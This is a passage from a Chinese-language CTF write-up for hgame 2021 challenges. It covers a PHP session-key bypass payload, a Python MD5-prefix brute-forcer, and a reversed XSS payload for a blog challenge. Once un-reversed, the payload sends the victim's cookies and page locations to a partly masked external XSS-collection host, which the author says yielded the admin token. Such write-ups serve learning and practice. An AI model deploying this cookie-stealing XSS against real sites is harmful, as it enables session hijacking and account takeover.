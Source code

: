 最后的 payload 就是这样：_POST\[\_SESSISESSIONON][username] = admin

![image-20210208022332916](https://i.loli.net/2021/02/08/R9TIJEWFd5tmizg.png)



hgame{R4U\~|s-4-LazY~doG}





## Post to zuckonit 

![image-20210207102600314](https://i.loli.net/2021/02/07/vtMuxa3b7FHE9NV.png)

Blog XSS，直接一把梭。结果因为自己没有 XSS 平台倒腾了一晚上

这是计算Code的程序：

```python
import hashlib
def func(md5_val):
    for x in range(1, 100000000):
        md5_value = hashlib.md5(str(x).encode(encoding='UTF-8')).hexdigest()
        if md5_value[:6] == md5_val:
            return str(x)
print(func(input('md5_val:')))
```

根据观察，发现payload会被倒序，所以把 XSS 程序提前倒序 

这是我的payload（已做一定隐私保护处理，不能直接使用）：

```
<img src=x onerror=prompt(1);> >//";})eikooc.tnemucod(epacse+'=eikooc&'+)noitacol.tnemucod(epacse+'=lru&mXxXaL=di&noissespeek=od?php.xedni/nc.*****.***//:ptt'+'h'=crs.peek;)(egamI wen=peek{)1==''(fi;)()};))()}}'' nruter{)e(hctac}'':ferh.noitacol.renepo.wodniw?)ferh.noitacol.renepo.wodniw && renepo.wodniw( nruter{yrt{)(noitcnuf((epacse+'=renepo&'+))()}}'' nruter{)e(hctac}eikooc.tnemucod nruter{yrt{)(noitcnuf((epacse+'=eikooc&'+))()}}'' nruter{)e(hctac}ferh.noitacol.pot nruter{yrt{)(noitcnuf((epacse+'=noitacolpot&'+))()}}'' nruter{)e(hctac}ferh.noitacol.tnemucod nruter{yrt{)(noitcnuf((epacse+'=noitacol&mXxXaL=di&ipa=od?php.xedni/nc.*****.***//:ptt'+'h'=crs.))(egamI wen({)(noitcnuf("=rorreno enon:yalpsid=elyts uoyssx=di ""=crs gmi<
```

发到平台上长这样：

![image-20210207103304430](https://i.loli.net/2021/02/07/R6ZIgkbofPXGp9q.png)

查看源码：

![image-20210207103336080](https://i.loli.net/2021/02/07/WUVN1szy5eTuljp.png)

成功嵌入网页

用程序跑出 Code，Submit。

去后台看数据，成功拿到管理员的token
